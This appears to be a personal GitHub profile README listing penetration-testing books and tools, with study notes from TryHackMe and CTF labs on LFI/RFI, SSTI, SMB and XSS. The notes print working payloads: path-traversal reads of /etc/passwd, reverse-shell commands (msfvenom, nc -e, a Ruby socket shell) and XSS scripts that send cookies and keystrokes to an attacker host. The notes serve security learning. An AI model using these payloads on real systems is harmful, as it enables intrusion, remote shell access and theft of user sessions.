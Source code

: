 ---

#   Computer Science, Cybersecurity, and Software Engineering

 <script src="https://tryhackme.com/badge/1210884"></script>

<details>
<summary>My Reading List & Resources </summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* Codecademy -> https://www.codecademy.com/profiles/JeremyLaratro
* TryHackme.com -> https://tryhackme.com/p/jeremylaratro
* HackTheBox.com -> 
* Hacktricks.xyz
* picoctf.org -> https://play.picoctf.org/users/jeremylaratro
* LeetCode -> https://leetcode.com/jeremylaratro/
</details>


----------
>Overview, Tools, and Pathways
Many tools exist for various different purposes when testing and exploiting systems. The tools necessary for to exploit any machine will vary but in most cases, begin in a similar fashion which is enumeration and reconnaissance. 
The following tools are ones which I have used for challenges, machines, and CTFs.
<details><summary>
General Enumeration | Scanning | Reconnaissance
</summary>

>>#### whatweb
>- This is often the first tool used to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.

>>####  Nmap  
>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even script execution.

>>####  wpscan  
>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.

>>####  Nessus  
>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack

>>####  OWASP Zap  
>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.

>>####  Dig, dnsenum, and nslookup
>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs. 
></details>
<details><summary> Exploitation and Investigation Tools
</summary>

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.

>#### Web Based Exploitation
>>####  BURP Suite
>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses
>>####  SQLMap 
>> - SQLi scanner and exploitation tool
>>####  dirb, dirbuster, gobuster 
>> - Directory enumeration
>>####  ffuf, hydra 
>> - Web fuzzing, directory enumeration, account brute forcing
>>####  sstimap, lfimap 
>> - LFI and SSTI vulnerability scanner and exploitation tool
>>####  xsssniper
>> - XSS scanner and exploitation tool
>>####  rapidscan 
>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 

>#### Network and Offline Exploitation
>>####  Metasploit
>> - Massive collection of known exploits, scripts, payloads, and database
>>####  hashcat
>> - GUI-accelerated password cracking tool. Extremely quick.
>>####  John the Ripper
>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 
>>####  cewl, crunch
>> - Custom password and wordlist generators

>#### Investigative Tools
>>####  Shodan
>> - Extremely powerful banner search engine. 
>>####  binwalk, exiftools, strings, cat
>> - Linux file analysis tools
</details>
<details><summary> 
Areas I'd Like to Improve </summary>

>####  Reverse Engineering
> - One of the areas I'd specifically like to improve in is reverse engineering, using tools like Ghidra and Apktool.
>####  Programming
> - Currently, I am most comfortable programming with Python, then Java, but would like to 
improve my C++ skills as I believe that understanding C++ and other lower-level 
languages improves on the greater understanding of underlying computer systems. I'd also like to 
learn more languages, in general. 
>#### SSTI and RCE
> - I would like to get less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and need
to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.
</details>

----------
> Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.
<details>

<summary>
Local File Inclusion and Remote File Inclusion Overview 
</summary>

># LFI

Notes from TryHackMe's LFI/RFI room. 

Local file inclusion is a vulnerability that can allow attackers to 
traverse the file system due to improperly or non-sanitized requests. 
This may allow an attacker to access sensitive files, ie /etc/passwd

Commonly used attack vector for LFI is '/../../'
````
get.php?file=../../../../etc/passwd
````

This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.
This can be determined by encouraging an error, ie:
````
 index.php?lang=jfbdsgd
 ````
 which then may return an error containing something along the lines of:
````
'..
 in /var/www/html/lab2.php on line 26'
 ````
 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:
 ```
 index.php?lang=../../../../etc/passwd
 ```
 OS info can be derived as well:
```
 /get.php?file=../../../../boot.ini
 /get.php?file=../../../../windows/win.ini
 
 ```
 Sanitization and filter evasion:
 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended
 index.php?lang=../../../../etc/passwd%00
 
 Using a '.' can also be used to signify staying within the directory
````
 ../../../../etc/passwd/.
 ````
 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.
 Evasion may be as simple as adding an extra layer, ie:
````
 /../../../etc/passwd  --> /../../../../etc/passwd
 ````
 Burp suite can be used to evade any request filters that may filter or change characters
Try POST, GET 
If _REQUEST is being used, take advantage of cookies: 
````
POST /challenges////////////chall3.php HTTP/1.1
Host: 10.10.120.210
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.120.210/challenges///////////chall3.php?file=
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: =../../../etc/flag3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

file=../../../etc/flag3%00
```` 
--------------------------
># RFI
 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:
allow_url_fopen

Overview:
Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed
````
GET /page.php?file=
lang=http://0.0.0.0/r.elf
````
````
O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 
````
Tools:
````
- lfimap
- lfitester
- vailyn
````
</details> 

<details>
<summary>Server-Side Template Injection - SSTI</summary>
Notes from SSTI Lab on TryHackMe.

Common test-cases:
````
{7*7}
{{7*7}}'
a{{bar}}b
{var} ${var} {{var}} <%var%> [% var %]

````

1.  Start local server.

````
python3 -m http.server 80

````
2. Test functionality of python server remotely using JS and curl.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}

10.10.16.5

````
3. Create reverse shell payload and initialize a netcat listener for it. 

````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf

nc -lvnp 443

````
4. Perform the SSTI, getting RCE on the server.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}

*{os.system("nc -e /bin/sh 10.10.16.5 5010")}
<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>
````

Tools:

````

- sstimap

````

</details>
<details>
<summary>SMB Exploitation</summary>
SMB- server message block
* Notes from TryHackMe's SMB room

Enumeration / Recon:
SMB uses port 445
A common service name is 'microsoft-ds'
After enumerating the system and finding a potential SMB exploitation pathway:
Further enumerate the SMB service using smbclient:

````

smbclient -L ip 

````

* Share names will be listed

	
Check for the guest or anonymous login, ie:
Sharenames:

````
ADMIN$
C$
WorkShares
````

After identifying potentially vulnerable share, attempt login:

````
smbclient \\\\ip\\<share>>
````

Upon entry --> 
* browse directories, look for sensitive files
* potential path traversal, pivot to other shares


</details>
<details>
<summary>XSS</summary>
XSS
Cross site scripting
Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data

Check
	
~~~
<script>alert('XSS');</script>
~~~
	
Session stealing:
	
~~~
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
~~~
Key loggger:
	
~~~
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
~~~
	

Business Logic 
	
~~~
<script>user.changeEmail('attacker@hacker.thm');</script>
~~~

#### Stored
Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 
Attack Vectors:
Comments on a blog
User profile information
Website Listings


#### Reflected
Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.
Attack Vectors:
Parameters in the URL Query String
URL File Path 

	
#### DOM
DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 
Attack Vectors:
eval()

	
#### Blind
Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.


Evasion:
	
~~~
"><script>alert(1);</script>
~~~
	
Close tag of encapsulating div:
	
~~~
</textarea><script>alert(1);</script>
~~~
	
Filter evasion:
Filter for 'script' --> sscriptcript
	
~~~
<sscriptcript>alert(1);</sscriptcript>
~~~
	
Within an image:
	
~~~
/images/cat.jpg" onload="alert(1);
~~~
	
Tools:
	
~~~
	
- xsshunter
- xsssniper
- xssstealer
- garud
- 0d1n
````
</details>

